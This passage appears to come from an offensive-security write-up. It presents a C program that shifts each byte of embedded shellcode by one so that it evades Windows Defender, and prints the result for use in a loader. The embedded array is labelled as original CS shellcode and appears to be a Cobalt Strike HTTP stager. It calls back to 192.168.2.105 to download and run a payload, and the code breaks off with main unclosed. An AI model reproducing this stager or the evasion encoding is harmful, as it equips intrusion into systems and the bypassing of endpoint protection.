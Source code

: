 #### Byte-Shifting Ceaser Cipher

I assumed that simple byte-shifting may be enough to avoid detection by Defender, so I wrote this small C script to increment each char by one:

```c
#include <stdio.h>

int main() {
  // Original CS shellcode
  unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";

  // Copy/paste wrapper
  printf("\nunsigned char array[] = \"");

  // Iterate over each byte in the array
  for(short i = 0; i < sizeof(array); i++) {
    short current = array[i];

    // Increment by 1 or roll over to stay within eight bits
    if(current < 255) {
      current += 1;
    } else {
      current = 0;
    }

    // Write to STDOUT
    printf("\\x%x", current);
  }
```